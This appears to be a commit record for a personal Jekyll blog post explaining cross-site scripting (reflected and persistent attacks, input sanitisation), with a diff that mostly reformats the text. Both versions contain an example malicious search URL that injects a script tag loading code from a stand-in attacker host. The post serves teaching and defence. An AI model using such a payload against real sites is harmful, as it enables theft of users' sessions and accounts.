

Before and after one commit to rbnmaia/rbnmaia.github.io, a Jekyll site: the page built from _posts/2019-10-2-xss.md, in a window 1280 px wide and 1400 px high, scrolled down 491 px. Shown: the whole window at 92% size, without its empty margins (0-997 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; part of the change alters nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
Update 2019-10-2-xss.md

```diff
--- a/_posts/2019-10-2-xss.md
+++ b/_posts/2019-10-2-xss.md
@@ -4,17 +4,22 @@ title: XSS - Cross-Site Scripting
 
 XSS is a term used to describe a class of attacks that allow an attacker to inject client-side scripts through the website into the browsers of other users. Because the injected code comes to the browser from the site, the code is trusted and can do things like send the user's site authorization cookie to the attacker. When the attacker has the cookie, they can log into a site as though they were the user and do anything the user can, such as access their credit card details, see contact details, or change passwords.
 
-Note: XSS vulnerabilities have been historically more common than any other type of security threat.
+`Note: XSS vulnerabilities have been historically more common than any other type of security threat.`
 
 The XSS vulnerabilities are divided into reflected and persistent, based on how the site returns the injected scripts to a browser.
 
 A reflected XSS vulnerability occurs when user content that is passed to the server is returned immediately and unmodified for display in the browser. Any scripts in the original user content will be run when the new page is loaded.
-For example, consider a site search function where the search terms are encoded as URL parameters, and these terms are displayed along with the results. An attacker can construct a search link that contains a malicious script as a parameter (e.g., http://mysite.com?q=beer<script%20src="http://evilsite.com/tricky.js"></script>) and email it to another user. If the target user clicks this "interesting link", the script will be executed when the search results are displayed. As discussed earlier, this gives the attacker all the information they need to enter the site as the target user, potentially making purchases as the user or sharing their contact information.
+
+For example, consider a site search function where the search terms are encoded as URL parameters, and these terms are displayed along with the results. An attacker can construct a search link that contains a malicious script as a parameter `(e.g., http://mysite.com?q=beer<script%20src="http://evilsite.com/tricky.js"></script>)` and email it to another user.
+
+If the target user clicks this "interesting link", the script will be executed when the search results are displayed. As discussed earlier, this gives the attacker all the information they need to enter the site as the target user, potentially making purchases as the user or sharing their contact information.
+
 A persistent XSS vulnerability occurs when the malicious script is stored on the website and then later redisplayed unmodified for other users to execute unwittingly.
+
 For example, a discussion board that accepts comments that contain unmodified HTML could store a malicious script from an attacker. When the comments are displayed, the script is executed and can send to the attacker the information required to access the user's account. This sort of attack is extremely popular and powerful, because the attacker might not even have any direct engagement with the victims.
 
-While the data from POST or GET requests is the most common source of XSS vulnerabilities, any data from the browser is potentially vulnerable, such as cookie data rendered by the browser, or user files that are uploaded and displayed.
+While the data from **POST** or **GET** requests is the most common source of XSS vulnerabilities, any data from the browser is potentially vulnerable, such as cookie data rendered by the browser, or user files that are uploaded and displayed.
 
-The best defense against XSS vulnerabilities is to remove or disable any markup that can potentially contain instructions to run the code. For HTML this includes elements, such as <script>, <object>, <embed>, and <link>.
+The best defense against XSS vulnerabilities is to remove or disable any markup that can potentially contain instructions to run the code. For HTML this includes elements, such as `<script>`, `<object>`, `<embed>`, and `<link>`.
 
 The process of modifying user data so that it can't be used to run scripts or otherwise affect the execution of server code is known as input sanitization. Many web frameworks automatically sanitize user input from HTML forms by default.
```
